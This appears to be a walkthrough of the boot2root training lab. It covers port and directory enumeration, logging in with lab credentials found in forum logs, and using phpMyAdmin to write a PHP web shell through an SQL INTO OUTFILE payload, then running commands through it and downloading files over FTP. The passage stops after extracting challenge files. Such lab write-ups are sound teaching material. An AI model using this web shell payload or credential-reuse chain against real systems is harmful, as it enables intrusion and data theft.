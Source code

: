 # *Write Up 1*

## Init
Installation of a Parrot Security ISO
>[Parrot](https://www.parrotsec.org/download/_)

We have to use some tools during the process so we use a VM with already some tools installed.

## Enumerate
To start, we need to list all the services which run on the machine.

First, use `nmap` to list active ports and the correspondants services.

```
➜  boot2root git:(main) nmap -sV 192.168.56.105
Not shown: 994 closed ports
PORT    STATE SERVICE    VERSION
21/tcp  open  ftp        vsftpd 2.0.8 or later
22/tcp  open  ssh        OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http       Apache httpd 2.2.22 ((Ubuntu))
143/tcp open  imap       Dovecot imapd
443/tcp open  ssl/http   Apache httpd 2.2.22
993/tcp open  ssl/imaps?
```
We can see there is a `http server` who runs on port `443`

![image](https://github.com/JoLMG42/boot2root/assets/94530285/a6a099ac-39a0-4ee4-bd7d-5a0131762458)

We can use `dirb` on Parrot examine roads of the server

```
┌─[user@parrot]─[~]
└──╼ $dirb https://192.168.56.101
 ==> DIRECTORY: https://192.168.56.101/forum/
 ==> DIRECTORY: https://192.168.56.101/phpmyadmin/
 ==> DIRECTORY: https://192.168.56.101/webmail/
```

When we try to access `phpmyadmin` and `webmail`, we need a `login` and a `password`, so go on forum for the moment.

![image](https://github.com/JoLMG42/boot2root/assets/94530285/f0a3b0d2-f0a2-43de-aa4d-e5ba1f7c90e3)

We see a `post` about `Probleme login ?` by a user named lmezard

In this post we found a log about a connection to a service and we found a password of lmezard.

```
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Received disconnect from 161.202.39.38: 3: com.jcraft.jsch.JSchException: Auth fail [preauth]
Oct 5 08:46:01 BornToSecHackMe CRON[7549]: pam_unix(cron:session): session opened for user lmezard by (uid=1040)
```

So try to login on the forum with these logs:
>login: `lmezard` password: `!q\]Ej?*5K5cy*AJ`

Youhou we are connected.

Now, we find an email in the informations section of lmezard,

![image](https://github.com/JoLMG42/boot2root/assets/94530285/d683c07d-224b-489d-a523-c678d4c3074d)

So go on the webmail service, try to log with our logs:

>login: `laurie@borntosec.net` password: `!q\]Ej?*5K5cy*AJ`

In the receive mail section, we have this mail,

![image](https://github.com/JoLMG42/boot2root/assets/94530285/c7bf327c-9d7a-4eee-84c2-3856d628b92a)

So go on phpmyadmin,

>login: `root` password: `Fg-'kKXBj87E:aJ$`

Now we have access to the database and we have a SQL page where we can improve sql injections:

https://null-byte.wonderhowto.com/how-to/use-sql-injection-run-os-commands-get-shell-0191405/

![image](https://github.com/JoLMG42/boot2root/assets/94530285/5b4d943c-0e27-4cbf-8198-715e9ab78d36)

>sqli: `SELECT 1, '<?php system($_GET["cmd"]); ?>' into outfile '/var/www/forum/templates_c/cmd.php' #`


Now if we target this url: `https://192.168.56.101/forum/templates_c/cmd.php?cmd=`, we can execute every commands on the machine

If we execute `ls /home` we can see a directory named LOOKATME,

![image](https://github.com/JoLMG42/boot2root/assets/94530285/f223cbe0-2207-466e-ae17-5bd8896d4015)

After dig in, we found a file password, lets cat it,

>https://192.168.56.101/forum/templates_c/cmd.php?cmd=cat%20/home/LOOKATME/password

>login: `lmezard` password `G!@M6f4Eatau{sF"`

After try some service with these logs, we found we can connect to FTP with it and we see two files, lets get it,


```
➜  ~ ftp lmezard@192.168.56.101
Connected to 192.168.56.101.
220 Welcome on this server
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||61451|).
150 Here comes the directory listing.
-rwxr-x---    1 1001     1001           96 Oct 15  2015 README
-rwxr-x---    1 1001     1001       808960 Oct 08  2015 fun
226 Directory send OK.
ftp> get README
local: README remote: README
229 Entering Extended Passive Mode (|||14650|).
150 Opening BINARY mode data connection for README (96 bytes).
100% |***************************************************************************|    96      118.52 KiB/s    00:00 ETA
226 Transfer complete.
96 bytes received in 00:00 (56.03 KiB/s)
ftp> get fun
local: fun remote: fun
229 Entering Extended Passive Mode (|||53956|).
150 Opening BINARY mode data connection for fun (808960 bytes).
100% |***************************************************************************|   790 KiB   26.64 MiB/s    00:00 ETA
226 Transfer complete.
808960 bytes received in 00:00 (25.62 MiB/s)
```

The README file says: `Complete this little challenge and use the result as password for user 'laurie' to login in ssh`.

So we have file fun:
1. examine informations about the file:
   ```
   ➜  ~ file fun
   fun: POSIX tar archive (GNU)
   ```
2. extract files:
   ```
   ➜  ~ tar -xvf fun
   ft_fun/
   ft_fun/C4D03.pcap
   ft_fun/GKGEP.pcap
   ft_fun/A5GPY.pcap
   ft_fun/K8SEB.pcap
   ft_fun/PFG98.pcap
   ...
   ```





